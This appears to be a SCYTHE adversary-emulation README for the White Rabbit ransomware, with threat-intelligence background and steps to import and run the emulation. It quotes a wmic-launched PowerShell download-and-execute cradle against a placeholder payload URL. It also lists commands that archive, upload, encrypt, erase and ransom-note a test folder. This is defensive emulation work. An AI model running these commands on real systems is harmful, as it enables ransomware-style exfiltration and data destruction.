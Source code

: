 # White Rabbit

## Cyber Threat Intelligence
White Rabbit was first observed attacking a US bank in December 2021 using double extortion techniques similar to [Egregor](https://github.com/scythe-io/community-threats/tree/master/Egregor).[^1] As a relateively new ransomware group, TTPs and cyber threat intelligence is not as abundant and available as other ransomware threats. This threat emulates the adversary at the technique level.

## Automated Emulation
1. Download and import the threat in JSON format to your SCYTHE instance
2. Download the Virtual File System (VFS) files under WhiteRabbit/VFS
3. Upload the VFS files to your SCYTHE VFS in the following location: VFS:/shared/threats/WhiteRabbit
4. Create a new campaign with HTTPS.
5. Import from Existing Threat: WhiteRabbit_v1
6. Launch the Campaign
7. As per CTI, execution of White Rabbit was done using ```wmic process call create "cmd /c powershell.exe -nop -ep bypass -c iex (New-Object System.Net.WebClient).DownloadString ('https://payloadurl/')"```

## Manual Emulation
Launch a campaign with the C2 parameters you desire. Once you have a shell, execute the following procedures:
```
loader --load run
run cmd /c mkdir "%USERPROFILE%\Desktop\WhiteRabbit"
loader --load file
file --create --path "%USERPROFILE%\Desktop\WhiteRabbit\important_files.doc" --size 2MB --count 50
run powershell "Compress-Archive -Path $env:userprofile\Desktop\WhiteRabbit -CompressionLevel Optimal -Destination $env:userprofile\Desktop\WhiteRabbit\exfil.zip"
loader --load uploader
uploader --remotepath "%USERPROFILE%\Desktop\WhiteRabbit\exfil.zip"
loader --load crypt
crypt --target "%USERPROFILE%\Desktop\WhiteRabbit\" --encrypt --password "Wh1teR4bb1t" --erase --recurse
loader --load downloader
downloader --src "VFS:/shared/threats/WhiteRabbit/README.scrypt.txt" --dest "%USERPROFILE%\Desktop\WhiteRabbit\README.scrypt.txt"
run wmic process call create "cmd /c powershell.exe -nop -ep bypass notepad.exe $env:userprofile\Desktop\WhiteRabbit\README.scrypt.txt"
run cmd /c rmdir /Q /S %USERPROFILE%\Desktop\WhiteRabbit"
```

## References
- [TrendMicro](https://www.trendmicro.com/en_us/research/22/a/new-ransomware-spotted-white-rabbit-and-its-evasion-tactics.html)

[^1]: [TrendMicro](https://www.trendmicro.com/en_us/research/22/a/new-ransomware-spotted-white-rabbit-and-its-evasion-tactics.html)